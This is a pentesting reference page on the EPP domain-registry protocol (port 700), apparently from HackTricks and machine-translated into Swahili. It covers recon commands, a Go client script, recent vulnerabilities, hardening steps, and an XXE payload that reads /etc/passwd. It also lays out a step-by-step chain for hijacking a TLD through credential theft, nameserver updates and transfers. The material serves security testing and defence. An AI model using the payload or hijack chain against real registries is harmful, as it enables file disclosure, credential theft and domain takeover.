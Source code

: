 # 700 - Pentesting EPP

{{#include ../banners/hacktricks-training.md}}

## Basic Information

Protokali ya Utoaji wa Mipango (EPP) ni protokali ya mtandao inayotumika kwa **usimamizi wa majina ya domain na rasilimali nyingine za mtandao** na usajili wa majina ya domain na wasajili. Inaruhusu automatisering ya usajili wa majina ya domain, upya, uhamisho, na mchakato wa kufuta, ikihakikisha mfumo wa mawasiliano wa kawaida na salama kati ya entiti tofauti katika mfumo wa majina ya domain (DNS). EPP imeundwa kuwa na uwezo wa kubadilika na kupanuka, ikiruhusu kuongeza vipengele na amri mpya kadri mahitaji ya miundombinu ya mtandao yanavyoendelea.

Kimsingi, ni moja ya protokali ambazo **wasajili wa TLD wataweza kutoa kwa wasajili wa majina ya domain** ili kusajili majina mapya katika TLD.

### Pentest

[**Katika makala hii ya kuvutia sana**](https://hackcompute.com/hacking-epp-servers/) unaweza kuona jinsi utafiti wa usalama ulivyogundua kwamba **utekelezaji wa protokali hii** ulikuwa na udhaifu wa XXE (XML External Entity) kwani protokali hii inatumia XML kuwasiliana, ambayo ingewawezesha washambuliaji kuchukua udhibiti wa TLD tofauti kumi.

---

## Enumeration & Recon

Seva za EPP karibu kila wakati husikiliza kwenye TCP `700/tcp` kupitia TLS. Utekelezaji wa kawaida pia unalazimisha **mutual-TLS (mTLS)** hivyo mteja lazima aonyeshe cheti halali kilichotolewa na CA ya usajili. Hata hivyo, utekelezaji mwingi wa majaribio ya kibinafsi au kabla ya uzalishaji unakosa udhibiti huo:
```bash
# Banner-grabbing / TLS inspection
nmap -p700 --script ssl-cert,ssl-enum-ciphers <target>

# Check if mTLS is *really* required (it frequently is not!)
openssl s_client -connect <target>:700 -quiet \
-servername epp.test 2>/dev/null | head
```
Ikiwa seva haitakata muunganisho baada ya mkono wa TLS, unaweza kujaribu kutuma ujumbe usio na uthibitisho `<hello/>`:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<epp xmlns="urn:ietf:params:xml:ns:epp-1.0">
<hello/>
</epp>
```
### Wateja wa chanzo wazi wanaofaa kwa majaribio

* **epp-client (Go)** – inatunzwa kwa ufanisi, inasaidia TCP/TLS na EPP-over-HTTPS (RFC 8730):
`go install github.com/domainr/epp/cmd/epp@latest`
* **gandi/go-epp** – maktaba ya mteja ya chini ambayo inaweza kuandaliwa kwa urahisi kwa ajili ya fuzzing au workflows za mtindo wa nuclei.
* **afq984/php-epp-client** – utekelezaji wa PHP unaotumiwa na registrars wengi wadogo; lengo rahisi kwa ajili ya mapitio ya msimbo.

Mfano wa skripti ya kuingia+kuangalia ya chini na Go epp-client:
```go
package main
import (
"github.com/domainr/epp"
"crypto/tls"
)

func main() {
cfg := &tls.Config{InsecureSkipVerify: true}
c, _ := epp.DialTLS("epp.test:700", cfg)
c.Login("CLIENT_ID", "PASSWORD", nil)
resp, _ := c.DomainCheck("example","com")
println(resp)
}
```
---

## Ukatili wa Kawaida & Uthibitisho wa 2023-2025

| Mwaka | Kipengele | CWE | Athari |
|------|-----------|-----|--------|
| 2023 | CoCCA Registry < 3.5 | CWE-611 XXE | Kusoma faili kwa mbali & SSRF kupitia payload iliyoundwa `<epp>` (patch: 2023-11-02) |
| 2024 | FRED EPP Server 2.x | CWE-322 Ukosefu wa uthibitisho wa TLS wa kutosha | Kupita kwa mTLS kuliruhusu kuingia kwa mregistrar asiyeidhinishwa |
| 2025 | Jukwaa la mregistrar la miliki | CWE-306 Kukosekana kwa Uthibitisho kwa Kazi Muhimu | Kituo cha idhini ya uhamisho wa domain kimefunuliwa kupitia daraja la EPP-HTTP |

### XXE / SSRF payload (inafanya kazi dhidi ya utekelezaji mwingi wa Java/Spring)
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<epp xmlns="urn:ietf:params:xml:ns:epp-1.0">
<command>
<check>
<domain:check xmlns:domain="urn:ietf:params:xml:ns:domain-1.0">
<domain:name>&xxe;</domain:name>
</domain:check>
</check>
</command>
</epp>
```
Wakati parser imewekwa vibaya (`XMLInputFactory.IS_SUPPORTING_EXTERNAL_ENTITIES=true`) maudhui ya faili yanarudishwa ndani ya muundo wa `<resData>`.

### Utafutaji mwingine wa kawaida

1. **Sera dhaifu za akidi** – EPP login passphrases fupi kuliko herufi 8; brute-force mara nyingi inawezekana kwa sababu spesifikesheni inapendekeza tu (sio inahitaji) ukomo wa kiwango.
2. **Kukosa hali ya `registryLock` / `serverUpdateProhibited`** – mara tu baada ya kuthibitishwa, washambuliaji wanaweza mara moja kubadilisha rekodi za NS na kuiba trafiki.
3. **Ujumbe wa kura usiosainiwa** – baadhi ya utekelezaji bado haujasaini ujumbe wa Q&A wa kura, ikiruhusu udanganyifu/kuiba kutoka kwa waendeshaji wa registrar.

---

## Njia ya Shambulio: Kutoka Sifuri hadi TLD Hijack

1. Gundua mwisho wa EPP (mara nyingi umefichwa nyuma ya mwenyeji wa jumla kama `ot&e.<tld>.nic.<cc>`).
2. Tumia moja ya udhaifu hapo juu kupata akidi za kiwango cha registrar (XXE → SSRF hadi IMDSv1, exfil ya akidi, au TLS-bypass).
3. Toa maombi ya `<update>` kubadilisha rekodi za `hostObj` za domain kuwa seva za jina zinazodhibitiwa na mshambuliaji.
4. (Hiari) Wasilisha `<transfer>` kuhamasisha domain kwa registrar inayodhibitiwa na mshambuliaji – rejista nyingi bado zinategemea **nambari moja ya uthibitisho**.
5. Faida: udhibiti kamili wa eneo la DNS, uwezo wa kuomba vyeti vya TLS kupitia ACME.

---

## Hatua za Kijamii na Kuimarisha

* Lazimisha **mTLS na vyeti vya mteja kwa kila registrar** na pin CA ya rejista.
* Weka `parserFeature secure-processing=true` au sawa ili kuua XXE.
* Endesha **fuzzing endelevu** ya parser ya XML (kwa mfano, na `go-fuzz` au `jazzer` kwa Java).
* Tumia **Hali ya Registry Lock / server*Prohibited** kwa maeneo ya thamani kubwa.
* Fuata foleni ya `poll` kwa amri za suspicious `<transfer>` au `<update>` na onyo kwa wakati halisi.
* Marekebisho ya mkataba wa DNS-Abuse wa ICANN 2024 yanahitaji rejista kuthibitisha udhibiti wa kiwango na uthibitisho – tumia hayo.

## Marejeleo

* Kamati ya Ushauri wa Usalama na Utulivu ya ICANN (SSAC). "SAC118: Matokeo ya Kushindwa kwa Opereta wa Rejista Kutekeleza Udhibiti wa Usalama wa EPP". 2024.
* HackCompute – "Kuhack seva za EPP: kutumia XXE kuiba TLDs" (2023).
{{#include ../banners/hacktricks-training.md}}
